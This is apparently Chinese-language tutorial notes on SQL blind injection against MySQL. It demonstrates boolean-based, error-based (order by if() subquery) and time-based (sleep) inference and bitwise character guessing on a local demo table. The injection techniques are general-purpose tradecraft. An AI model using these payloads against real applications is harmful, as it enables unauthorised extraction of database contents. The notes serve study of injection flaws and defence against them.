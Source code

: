 参考: [sql 盲注测试](http://www.freebuf.com/articles/web/30841.html)

在没有表被引用的情况下，允许指定 dual 作为一个假的表名
users 是自己一个库里面的表名
### 盲注一般分为三种情况
* Booleanbase
* Timebase
* Errorbase

### 普通盲注 Booleanbase
比如在where语句中可以构造or 1=1来使返回页面不同。(这里用mysql演示一下，大家体会就好)
'''
mysql> select 123 from dual where 1=1;  -- dual表 不一定存在(在还没有选择数据库的时候)
+-----+
| 123 |
+-----+
| 123 |
+-----+
1 row in set (0.00 sec)
mysql> select 123 from dual where 1=0;
Empty set (0.00 sec)
'''

如果注入点在order by后面，那么则可以使用判断语句来构造报错。（其实order by后面的注入也可以根据返回结果的顺序来判断，这里自由发挥就好：P）
'''
mysql> select 1 from users order by if(1,1,(select 1 union select 2)) limit 0,3;
+---+
| 1 |
+---+
| 1 |
| 1 |
| 1 |
+---+
3 rows in set (0.00 sec)
mysql> select 1 from users order by if(1,1,(select 1 union select 2)) limit 0,6;
+---+
| 1 |
+---+
| 1 |
| 1 |
| 1 |
| 1 |
+---+
4 rows in set (0.00 sec)  -- limit 0,6 只返回4行, 表明共有4行
mysql> select 1 from users order by if(0,1,(select 1 union select 2)) limit 0,3;
ERROR 1242 (21000): Subquery returns more than 1 row
'''
这里的 if 后面要跟 3 个参数, 且全为真来表示原来应有的字段名称, limit是显示从表中查找的行数

### Timebase
基于时间的盲注的话，mysql主要涉及两个函数，sleep banchmark 基本是使用如下。
'''
mysql> select 1 from users where if(1=1,sleep(1),1) limit 0,1;
Empty set (27.00 sec)  -- 有几行就会sleep几秒
mysql> select 1 from users where if(1=2,sleep(1),1) limit 0,1;
+---+
| 1 |
+---+
| 1 |
+---+
1 row in set (0.00 sec)
'''

### 位运算
mysql中位运算的与运算是&，我们主要用它来进行猜测，比如a的ascii码是1100001，那么我们可以使用1,2,4,8,16…..依次与他进行与运算，最终得到结果
'''
mysql> select ord('a') & 1;
+--------------+
| ord('a') & 1 |
+--------------+
|            1 |
+--------------+
1 row in set (0.00 sec)
mysql> select ord('a') & 2;
+--------------+
| ord('a') & 2 |
+--------------+
|            0 |
+--------------+
1 row in set (0.00 sec)
'''
